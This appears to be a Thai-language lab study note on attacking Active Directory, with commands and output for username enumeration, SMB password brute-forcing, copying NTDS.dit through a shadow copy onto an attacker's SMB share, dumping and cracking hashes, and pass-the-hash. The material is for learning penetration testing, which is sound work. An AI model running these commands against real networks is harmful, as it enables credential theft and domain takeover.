

# การโจมตี Active Directory และ NTDS.dit

## บทนำเกี่ยว Active Directory

**Active Directory (AD)** เป็นบริการไดเรกทอรีที่สำคัญและพบได้บ่อยในเครือข่ายองค์กรสมัยใหม่ หากองค์กรใช้ระบบ Windows แสดงว่ามีการใช้ AD ในการจัดการระบบเหล่านั้น

### ขอบเขตของการโจมตี

ในส่วนนี้เราจะเน้นที่:
1. การดึง credentials ผ่าน dictionary attack กับบัญชี AD
2. การดัมพ์ hashes จากไฟล์ NTDS.dit

---

## กระบวนการ Authentication ใน Domain-Joined System



### การทำงานเมื่อเข้าร่วม Domain

เมื่อระบบ Windows เข้าร่วม Domain แล้ว:
- **ไม่ใช้ SAM database อีกต่อไป** ในการตรวจสอบการเข้าสู่ระบบ
- ส่งคำขอ authentication ไปยัง **Domain Controller** แทน
- ยังสามารถใช้ local account ใน SAM ได้โดยระบุ: `WS01\nameofuser` หรือ `.\username`

---

## Dictionary Attack กับ AD Accounts

### ข้อควรระวัง
- **Noisy Attack** - สร้างทราฟฟิกเยอะ ตรวจจับง่าย
- อาจถูกบล็อกจาก **login attempt restrictions** ใน Group Policy
- ควรปรับแต่งการโจมตีให้เหมาะสมกับเป้าหมาย

### การหา Username Convention

**รูปแบบที่พบบ่อย:**

| รูปแบบ | ตัวอย่าง (Jane Jill Doe) |
|--------|-------------------------|
| firstinitiallastname | jdoe |
| firstinitialmiddleinitiallastname | jjdoe |
| firstnamelastname | janedoe |
| firstname.lastname | jane.doe |
| lastname.firstname | doe.jane |
| nickname | doedoehacksstuff |

### เทคนิคการค้นหา Username

**วิธีที่ 1: Google Dorking**
```bash
"@inlanefreight.com"
"inlanefreight.com filetype:pdf"
```

**วิธีที่ 2: ค้นหาจาก Social Media**
- หา employee directory บนเว็บไซต์บริษัท
- ดู email structure เพื่อเดา username format

---

## การสร้าง Custom Username List

### สร้างด้วยมือ

**ตัวอย่างรายชื่อ:**
```
Ben Williamson
Bob Burgerstien
Jim Stevenson
Jill Johnson
Jane Doe
```

**Username list ที่ได้:**
```bash
cat usernames.txt

bwilliamson
benwilliamson
ben.willamson
willamson.ben
bburgerstien
bobburgerstien
bob.burgerstien
burgerstien.bob
jstevenson
jimstevenson
jim.stevenson
stevenson.jim
```

### ใช้เครื่องมืออัตโนมัติ: Username Anarchy

```bash
./username-anarchy -i /home/ltnbob/names.txt

ben
benwilliamson
ben.williamson
benwilli
benwill
benw
b.williamson
bwilliamson
wben
w.ben
williamsonb
williamson
williamson.b
williamson.ben
bw
```

---

## การตรวจสอบ Username ด้วย Kerbrute

**ประโยชน์:**
- ยืนยันว่า username นั้นมีอยู่จริง
- ค้นหา naming convention ที่ถูกต้อง
- ลดการเดาโดยไม่จำเป็น

```bash
./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain inlanefreight.local names.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 04/25/25

2025/04/25 09:17:11 >  [+] VALID USERNAME:       bwilliamson@inlanefreight.local
```

---

## การโจมตีด้วย NetExec (Brute-Force)

```bash
netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt

SMB         10.129.201.57     445    DC01           [*] Windows 10.0 Build 17763 x64
SMB         10.129.201.57     445    DC01           [-] inlanefrieght.local\bwilliamson:winter2017 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01           [-] inlanefrieght.local\bwilliamson:winter2016 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01           [+] inlanefrieght.local\bwilliamson:P@55w0rd!
```

### ผลลัพธ์ที่ได้
- ✅ **ได้ credentials:** `bwilliamson:P@55w0rd!`
- ⚠️ **ความเสี่ยง:** อาจทำให้บัญชีถูกล็อกถ้ามี account lockout policy

---

## การตรวจจับใน Event Logs

**Event ID 4776** - Credential Validation
- Windows Event Viewer → Security logs
- แสดงการพยายาม login ทั้งหมด
- ช่วยในการสืบสวนและปรับปรุงมาตรการรักษาความปลอดภัย

---

## การดักจับ NTDS.dit

### NTDS.dit คืออะไร?

**NT Directory Services (NTDS):**
- ไฟล์ฐานข้อมูลหลักของ AD
- เก็บที่: `%systemroot%/ntds` บน Domain Controller
- **.dit** = Directory Information Tree
- **เก็บข้อมูล:**
  - Username ทั้งหมดใน domain
  - Password hashes
  - ข้อมูล schema ที่สำคัญ

**ความสำคัญ:** ถ้าได้ไฟล์นี้มา สามารถ compromise บัญชีทุกตัวใน domain ได้!

---

## ขั้นตอนการดักจับ NTDS.dit

### 1. เชื่อมต่อ DC ด้วย Evil-WinRM

```bash
evil-winrm -i 10.129.201.57 -u bwilliamson -p 'P@55w0rd!'
```

### 2. ตรวจสอบสิทธิ์ Local Group

```powershell
*Evil-WinRM* PS C:\> net localgroup

*Administrators
*Backup Operators
*Domain Admins
*Remote Desktop Users
...
```

### 3. ตรวจสอบสิทธิ์ User Account
```
To make a copy of the NTDS.dit file, we need local admin (Administrators group) or Domain Admin (Domain Admins group) (or equivalent) rights.
```

```powershell
*Evil-WinRM* PS C:\> net user bwilliamson

User name                    bwilliamson
Full Name                    Ben Williamson
Account active               Yes

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
```

**ผลลัพธ์:** มีทั้ง **Administrators** และ **Domain Admins** rights ✅

---

### 4. สร้าง Volume Shadow Copy (VSS)

**ทำไมใช้ VSS?**
- ทำสำเนาไดรฟ์ที่กำลังใช้งานอยู่ได้
- ไม่ต้อง shutdown ระบบ
- ใช้โดยซอฟต์แวร์ backup และ disaster recovery

```powershell
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

---

### 5. คัดลอก NTDS.dit จาก VSS

```powershell
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

        1 file(s) copied.
```

**⚠️ หมายเหตุสำคัญ:**
- Hashes ใน NTDS.dit ถูกเข้ารหัสด้วย key ที่เก็บในไฟล์ **SYSTEM**
- ต้องดาวน์โหลด**ทั้งสองไฟล์** (NTDS.dit + SYSTEM) เพื่อดึง hashes ได้

---

### 6. ย้ายไฟล์ไปยัง Attack Host

**สร้าง SMB Share ที่ Attack Host ก่อน** (ดูวิธีการในส่วน Attacking SAM)
```
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
```

```powershell
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData

        1 file(s) moved.
```

---

### 7. ดึง Hashes จาก NTDS.dit ด้วย Impacket

```bash
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL

Impacket v0.12.0

[*] Target system bootKey: 0x62649a98dea282e3c3df04cc5fe4c130
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 086ab260718494c3a503c47d430a92a4
[*] Reading and decrypting hashes from NTDS.dit

Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
```

---

## วิธีที่เร็วกว่า: ใช้ NetExec Module

**ข้อดี:** ทำทุกขั้นตอนด้วยคำสั่งเดียว!

```bash
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil

SMB         10.129.201.57   445     DC01         [+] inlanefrieght.local\bwilliamson:P@55w0rd! (Pwn3d!)
NTDSUTIL    10.129.201.57   445     DC01         [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\174556000
NTDSUTIL    10.129.201.57   445     DC01         Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.129.201.57   445     DC01         [+] NTDS.dit dumped to C:\Windows\Temp\174556000
NTDSUTIL    10.129.201.57   445     DC01         [*] Copying NTDS dump to /tmp/tmpcw5zqy5r
NTDSUTIL    10.129.201.57   445     DC01         [+] Deleted C:\Windows\Temp\174556000 remote dump directory

NTDSUTIL    10.129.201.57   445     DC01         Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
NTDSUTIL    10.129.201.57   445     DC01         [+] Dumped 61 NTDS hashes
```

**การดึงเฉพาะบัญชีที่ active:**
```bash
grep -iv disabled /home/bob/.nxc/logs/DC01_10.129.201.57_2025-04-25_084640.ntds | cut -d ':' -f1
```

---

## การ Crack Hashes

### ใช้ Hashcat

```bash
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```

**Parameters:**
- `-m 1000` = NTLM hash mode
- Hash ที่จะ crack
- Wordlist path

---

## Pass-the-Hash (PtH) Attack

### เมื่อ Crack ไม่สำเร็จ

**PtH คืออะไร?**
- การใช้ password hash โดยตรงในการ authenticate
- ใช้ประโยชน์จาก **NTLM authentication protocol**
- ไม่จำเป็นต้องรู้รหัสผ่านแบบ cleartext

### รูปแบบการใช้งาน

**ปกติ:** `username:cleartext-password`  
**PtH:** `username:password-hash`

### ตัวอย่างการใช้งาน PtH ด้วย Evil-WinRM

```bash
evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```

**Parameters:**
- `-i` = IP address
- `-u` = Username
- `-H` = NT Hash (ไม่ใช่รหัสผ่าน)

### การประยุกต์ใช้

- **Lateral Movement** - เคลื่อนย้ายข้ามเครือข่ายหลังได้ foothold แล้ว
- เหมาะสำหรับกรณีที่ crack hash ไม่สำเร็จ
- เรียนรู้เพิ่มเติมในโมดูล **AD Enumeration and Attacks**

---

## สรุป

### ขั้นตอนการโจมตี AD

1. **การค้นหา Username** → Username Anarchy, Kerbrute
2. **Dictionary Attack** → NetExec SMB
3. **ได้ Credentials** → เชื่อมต่อด้วย Evil-WinRM
4. **สร้าง VSS** → vssadmin CREATE SHADOW
5. **คัดลอก NTDS.dit** → Copy จาก Shadow Copy
6. **ดึง Hashes** → Impacket secretsdump หรือ NetExec ntdsutil
7. **Crack หรือ PtH** → Hashcat หรือ Evil-WinRM

### จุดสำคัญที่ควรจำ

- ⚠️ Dictionary attack มี**เสียงดัง** ตรวจจับง่าย
- 📁 NTDS.dit ต้องใช้คู่กับไฟล์ **SYSTEM**
- 🔐 Pass-the-Hash ใช้ได้เมื่อ crack ไม่สำเร็จ
- 🛡️ ต้องมีสิทธิ์ **Domain Admin** หรือ **Local Admin** ในการดัก NTDS.dit